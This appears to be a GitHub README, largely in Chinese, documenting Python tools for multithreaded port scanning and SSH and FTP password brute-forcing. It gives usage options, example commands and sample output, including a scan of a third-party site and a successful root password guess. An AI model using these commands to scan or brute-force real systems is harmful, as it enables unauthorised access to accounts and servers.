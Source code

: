 ### PortScan.py 多线程端口扫描器
```
More Help: PortScan.py -h

测试:
	python PortScan.py -H www.baidu.com -p 80 443 110
	➜  py python PortScan.py -H www.baidu.com -p 80 443 110 
		[+] Scan Results for: 119.75.218.70
		Scanning port 443
		Scanning port 110
		Scanning port 80
		[+]443/tcp open
		[+] HTTP/1.1 302 Moved Temporarily
		Server: bfe/1.0.8.18
		Date: Sun, 06 Nov 2016 08:43:40 GMT
		Content-T
		[-]110/tcp closed
		[-]80/tcp closed
	Also, You can local test , The python script support domain or ip mode
	Example:
		python PortScan.py -H 127.0.0.1 -p 80
```

### sshAttack.py 多线程ssh密码暴力破解
```
测试：
	➜  py python sshAttack.py -h                                                    
		Usage: -H <target host> -u <user> -f <password list>

		Options:
		  -h, --help     show this help message and exit
		  -H TGTHOST     specify target host
		  -f PASSWDFILE  specify password file
		  -u USER        specify the user
		  -c COUNT       specify the max ssh connect count , default 5
	
	py python sshAttack.py -H 192.168.2.201 -u test -f /Users/lock/1.txt -c 20
	-c 用户测试指定ssh链接数，具体根据ssh config 文件判断

例：
➜  py python sshAttack.py -H 192.168.1.100 -u root -f password.md -c 20
		[-] Testing: 1111
		[-] Testing: 2222
		[-] Testing: 3333
		[-] Testing: 111111
		[-] Testing: 123123
		[-] Testing: 123456
		[+] Good , Key Found: 123456
```

### ftpAttack.py 多线程ftp密码暴力破解
```
测试：
➜  py python ftpAttack.py -h
	Usage: -H <target host> -f <password list>

	Options:
	  -h, --help     show this help message and exit
	  -H TGTHOST     specify target host
	  -f PASSWDFILE  specify password file,like username:password format file
	  -d DELAY       attack time delay set default 1s

➜  py python ftpAttack.py -H 127.0.0.1 -f userpass.md -d 1
```